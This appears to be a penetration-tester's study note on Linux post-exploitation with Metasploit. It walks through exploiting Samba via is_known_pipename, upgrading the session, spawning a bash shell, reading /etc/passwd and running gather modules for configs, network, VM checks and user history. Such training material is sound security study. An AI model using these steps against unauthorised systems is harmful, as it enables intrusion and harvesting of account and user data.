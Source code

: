 ```yaml
---
up: "[[Linux Post Exploitation]]"
---
```


# Linux Post Exploitation Modules

- MSF post exploitation modules to enumerate:
	- System configuration
	- Environment variables
	- Network configuration
	- VM check
	- User history

## Demonstration

```bash
> db_nmap -sV <ip>
> use exploit/linux/samba/is_known_pipename
> run
^Z
> sessions -u <id>
> sessions <id+1>
m> shell
/bin/bash -i
# enumerate users
$ cat /etc/passwd
# enum groups
$ groups root
# see open ports
$ netstat -antp
# see processes
$ ps aux
# env variables
$ env
# various modules:
> use post/linux/gather/enum_configs
> use post/multi/gather/env
> use post/linux/gather/enum_network
> use post/linux/gather/enum_protections
> use post/linux/gather/enum_system
> use post/linux/gather/checkcontainer
> use post/linux/gather/checkvm
> use post/linux/gather/enum_users_history
# data
> loots
> notes
```
